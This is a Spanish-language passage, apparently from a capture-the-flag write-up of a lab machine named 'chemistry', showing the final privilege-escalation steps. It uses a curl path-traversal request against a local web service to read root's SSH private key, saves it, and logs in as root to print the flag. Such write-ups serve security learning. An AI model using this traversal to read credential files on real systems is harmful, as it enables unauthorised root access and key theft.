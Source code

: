 se redirige la salida del comando `curl` al archivo `/tmp/id_rsa`, luego se cambian los permisos del archivo con `chmod 600` para que solo el usuario actual pueda leerlo, dejando lista la clave para ser utilizada en un intento de conexión SSH.
```bash
rosa@chemistry:~$ curl -s -X GET "http://localhost:8080/assets/../../../../root/.ssh/id_rsa" --path-as-is > /tmp/id_rsa
rosa@chemistry:~$ cd /tmp
rosa@chemistry:/tmp$ chmod 600 id_rsa
rosa@chemistry:/tmp$ ls -l id_rsa
-rw------- 1 rosa rosa 2602 May 11 19:27 id_rsa
```

En esta última etapa, se utiliza la clave privada obtenida previamente para iniciar sesión como usuario _root_ en el sistema local mediante SSH.
```bash
rosa@chemistry:/tmp$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:dA5ziYneQdL2rpHt1KIbpl7EQwZtsehS7ovqWqI7cMs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

root@chemistry:~# whoami
root
root@chemistry:~# ls
root.txt
root@chemistry:~# cat root.txt 
23055b88a41584c9c20765d79b640a03
```

